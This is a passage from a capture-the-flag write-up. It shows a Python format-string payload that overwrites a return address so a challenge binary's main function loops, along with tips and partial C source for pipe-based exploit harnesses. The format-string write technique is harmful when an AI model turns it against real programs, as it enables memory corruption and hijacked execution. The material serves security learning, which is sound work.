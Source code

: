 The new payload that loops the program:

```python
val = 0xdb78
payload = "%c"*11+f"%{val-11}c"
payload+= "%hn"
val = 0x163 - 0x78
payload+= f"%{val}c%43$hhn"
p.send(payload.ljust(0x40,'\0').encode())
'''
0x63 to jump to this instructure in __libc_start_call_main:
0x7ffff7daad63 <__libc_start_call_main+83>     mov    qword ptr [rsp + 0x70], rax
'''
```


# 0x04 The after-story

The part after knowing this new skill is kind of boring. We can just loop the main function and edit the data to leave some gadgets on the stack.

However, for this challenge, the hint says we'd better use C language to exploit. Even though I don't exactly understand why we should do that, I used the C language to communicate with the program and exploit it. During this process, I discovered some interesting tips we should consider when using the C language to create pipes for exploiting another program:

1. Take care of `\x00` in the returned data: For instance, if we want to perform a read operation in our exploit script, it's advisable to use functions like `memmem` rather than `strstr`. Alternatively, you can replace null bytes with other non-null values to avoid issues.
   
2. If the challenge didn't change the original stdout buffer to stream mode, we should take care of printf in child process. In the testing, if the output is larger than 0x1000 bytes(>0x1000), `printf` in the child process would split it and send them out. For example 0x1001 bytes would be 0x1000(sent) 0x1 bytes (not sent). We should fill the chunk to `x*0x1000` so the data at the end can be received.


Here are some source codes to building two pipes between the child and the parent processes. You can also use these programs to test the buffer issue of `printf`.


> main.c
```c

#include <stdio.h>
#include <sys/mman.h>

int main(){
    int fd_send[2], fd_recv[2];
    pipe(fd_send); // 3 4
    pipe(fd_recv); // 5 6
    int pid = fork();
    if(pid){
        close(fd_send[0]); // Free fd 3
        close(fd_recv[1]); // Free fd 6
        write(fd_send[1],"X",1);
        char buf[0x2000];
        memset(buf,0,0x2000);
        int res = read(fd_recv[0],buf,0x2000);
        printf("%d\n",res);
    }
    else{
        close(fd_send[1]);
        close(fd_recv[0]);
        dup2(fd_send[0],0);
        dup2(fd_recv[1],1);
        char *new_envp[]= {"Author=n132",NULL};
```